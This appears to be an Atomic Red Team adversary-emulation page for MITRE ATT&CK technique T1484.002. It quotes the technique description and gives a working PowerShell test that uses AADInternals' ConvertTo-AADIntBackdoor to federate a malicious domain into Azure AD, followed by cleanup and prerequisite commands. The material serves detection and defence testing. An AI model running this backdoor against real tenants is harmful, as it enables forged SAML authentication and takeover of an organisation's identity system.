 # T1484.002 - Domain Trust Modification
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/002)
<blockquote>Adversaries may add new domain trusts or modify the properties of existing domain trusts to evade defenses and/or elevate privileges. Domain trust details, such as whether or not a domain is federated, allow authentication and authorization properties to apply between domains for the purpose of accessing shared resources.(Citation: Microsoft - Azure AD Federation) These trust objects may include accounts, credentials, and other authentication material applied to servers, tokens, and domains.

Manipulating the domain trusts may allow an adversary to escalate privileges and/or evade defenses by modifying settings to add objects which they control. For example, this may be used to forge [SAML Tokens](https://attack.mitre.org/techniques/T1606/002), without the need to compromise the signing certificate to forge new credentials. Instead, an adversary can manipulate domain trusts to add their own signing certificate.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Add Federation to Azure AD](#atomic-test-1---add-federation-to-azure-ad)


<br/>

## Atomic Test #1 - Add Federation to Azure AD
Add a new federated domain to Azure AD using PowerShell.
The malicious domain to be federated must be configured beforehand (outside of the scope of this test):
    1. Open Azure Portal
    2. Add a new "custom domain name"
    3. Verify the domain by following instructions (i.e. create the requested DNS record)

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 8906c5d0-3ee5-4f63-897a-f6cafd3fdbb7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| azure_username | Username of a privileged Azure AD account such as External Identity Provider Administrator or Global Administrator roles | string | bruce.wayne@contosocloud.com|
| azure_password | Password of azure_username | string | iamthebatman|
| domain_name | Malicious federated domain name | string | contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AzureAD
Import-Module AADInternals

$PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword

try {
  Connect-AzureAD -Credential $Credential -ErrorAction Stop > $null
}
catch {
  Write-Host "Error: AzureAD could not connect"
  exit 1
}

try {
  $domain = Get-AzureADDomain -Name "#{domain_name}"
}
catch {
  Write-Host "Error: domain ""#{domain_name}"" not found"
  exit 1
}
if (-Not $domain.IsVerified) {
  Write-Host "Error: domain ""#{domain_name}"" not verified"
  exit 1
}

if ($domain.AuthenticationType -eq "Federated") {
  Write-Host "Error: domain ""#{domain_name}"" already federated. Try with a different domain or re-create it before."
  exit 1
}

$at = Get-AADIntAccessTokenForAADGraph -Credentials $Credential
if (-Not $at) {
  Write-Host "Error: AADInternals could not connect"
  exit 1
}

$new = ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "#{domain_name}"
if ($new) {
  Write-Host "Federation successfully added to Azure AD"
  Write-Host $new
}
else {
  Write-Host "The federation setup failed"
}

Write-Host "End of federation configuration."
```

#### Cleanup Commands:
```powershell
try {
  Import-Module AzureAD -ErrorAction Ignore

  $PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword
  Connect-AzureAD -Credential $Credential -ErrorAction Ignore > $null

  Remove-AzureADDomain -Name "#{domain_name}" -ErrorAction Ignore
} catch {}
```



#### Dependencies:  Run with `powershell`!
##### Description: AzureAD and AADInternals Powershell modules must be installed.
##### Check Prereq Commands:
```powershell
if ((Get-Module -ListAvailable -Name AzureAD) -And (Get-Module -ListAvailable -Name AADInternals)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureAD -Force
Install-Module -Name AADInternals -Force
```




<br/>
